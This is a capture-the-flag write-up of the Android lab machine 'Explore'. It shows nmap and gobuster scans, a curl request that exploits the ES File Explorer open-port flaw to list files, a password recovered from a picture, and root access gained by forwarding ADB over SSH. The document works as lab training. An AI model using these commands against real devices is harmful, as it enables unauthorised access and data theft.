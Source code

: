 # Explore | Android

To start the challenge, first we do a port scanning using the network mapper(NMAP):

```jsx
┌─[bracketz@marians]─[~]
└──╼ $nmap -sV -p- 10.10.10.247 -T4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 11:00 -03
Warning: 10.10.10.247 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.247
Host is up (0.59s latency).
Not shown: 65426 closed ports, 106 filtered ports
PORT      STATE SERVICE    VERSION
2222/tcp  open  ssh        (protocol 2.0)
44629/tcp open  tcpwrapped
59777/tcp open  http       Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.91%I=7%D=6/27%Time=60D895AB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4426.56 seconds
```

On port 59777 has a Bukkit JSONAPI responsible to make a Minecraft PE server

![Explore%20Android/Untitled.png](Explore%20Android/Untitled.png)

The port 44057 has a ES File Explorer :

![Explore%20Android/Untitled%201.png](Explore%20Android/Untitled%201.png)

Searching a little bit, I found one vulnerability that allows us to get or execute commands via HTTP header or URL :

P**oc** - [https://github.com/fs0c131y/ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

**Twitter post of vulnerability** - [https://twitter.com/fs0c131y/status/1085460755313508352](https://twitter.com/fs0c131y/status/1085460755313508352)

Running a directory scan in port to discover the system structure, we can see the android folders and in each folder, we can explore more and more to get the files using a tool and passing the PATH that you wish to discover.

```jsx
┌─[✗]─[bracketz@marians]─[~]
└──╼ $gobuster dir -u http://10.10.10.247:59777/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.247:59777/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/27 02:33:34 Starting gobuster in directory enumeration mode
===============================================================
/bin                  (Status: 301) [Size: 63] [--> /bin/]
/cache                (Status: 301) [Size: 67] [--> /cache/]
/config               (Status: 301) [Size: 69] [--> /config/]
/d                    (Status: 301) [Size: 59] [--> /d/]     
/data                 (Status: 301) [Size: 65] [--> /data/]  
/dev                  (Status: 301) [Size: 63] [--> /dev/]   
/etc                  (Status: 301) [Size: 63] [--> /etc/]   
/init                 (Status: 403) [Size: 31]               
/lib                  (Status: 301) [Size: 63] [--> /lib/]   
/oem                  (Status: 301) [Size: 63] [--> /oem/]   
/proc                 (Status: 301) [Size: 65] [--> /proc/]  
/product              (Status: 301) [Size: 71] [--> /product/]
/sbin                 (Status: 301) [Size: 65] [--> /sbin/]   
/storage              (Status: 301) [Size: 71] [--> /storage/]
/sys                  (Status: 301) [Size: 63] [--> /sys/]    
/system               (Status: 301) [Size: 69] [--> /system/] 
/vendor               (Status: 301) [Size: 69] [--> /vendor/] 
                                                              
===============================================================
2021/06/27 02:46:56 Finished
===============================================================
```

![Explore%20Android/Untitled%202.png](Explore%20Android/Untitled%202.png)

Testing a command:

![Explore%20Android/Untitled%203.png](Explore%20Android/Untitled%203.png)

Using the vulnerability we can remotely list all archives in directory:

```jsx
curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777/
```

![Explore%20Android/Untitled%204.png](Explore%20Android/Untitled%204.png)

The GitHub POC has more commands to use.

![Explore%20Android/Untitled%205.png](Explore%20Android/Untitled%205.png)

Entering in sdcard folder retrieve us the user.txt flag:

![Explore%20Android/Untitled%206.png](Explore%20Android/Untitled%206.png)

 After discovering just copy the return paste it in your browser to visualize the flag file:

![Explore%20Android/Untitled%207.png](Explore%20Android/Untitled%207.png)

Changing the command listFiles with listPics shows the pictures directory, opening each picture I found one picture of a notebook written some password:

![Explore%20Android/Untitled%208.png](Explore%20Android/Untitled%208.png)

![Explore%20Android/Untitled%209.png](Explore%20Android/Untitled%209.png)

Rewriting password: Kr1sT!5h@Rp3xPl0r3!

We can try login in SSH using the user and password:

![Explore%20Android/Untitled%2010.png](Explore%20Android/Untitled%2010.png)

Interesting ports running on the system:

![Explore%20Android/Untitled%2011.png](Explore%20Android/Untitled%2011.png)

In the process has a ADB service running that is a Android Debugger.

![Explore%20Android/Untitled%2012.png](Explore%20Android/Untitled%2012.png)

```python
Active Internet connections (established and servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp6       0      0 ::ffff:10.10.10.2:43881 :::*                    LISTEN      -
tcp6       0      0 :::2222                 :::*                    LISTEN      3630/net.xnano.android.sshserver
tcp6       0      0 ::ffff:127.0.0.1:34511  :::*                    LISTEN      -
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 :::42135                :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
```

Making port-forwarding in SSH with port 5555 we can spawn android debugger and connect in [localhost](http://localhost) using the command ADB shell.

![Explore%20Android/Untitled%2013.png](Explore%20Android/Untitled%2013.png)

![Explore%20Android/Untitled%2014.png](Explore%20Android/Untitled%2014.png)

Probably the ADB shell is running as root, so we simply type SU and get the root session.

Now get the root flag in the data directory and OWN the “machine”🤣.

I do a simple script to interact with the vulnerability just for fun:

[https://github.com/sidhawkss/ES-File-Explorer-Vulnerability](https://github.com/sidhawkss/ES-File-Explorer-Vulnerability)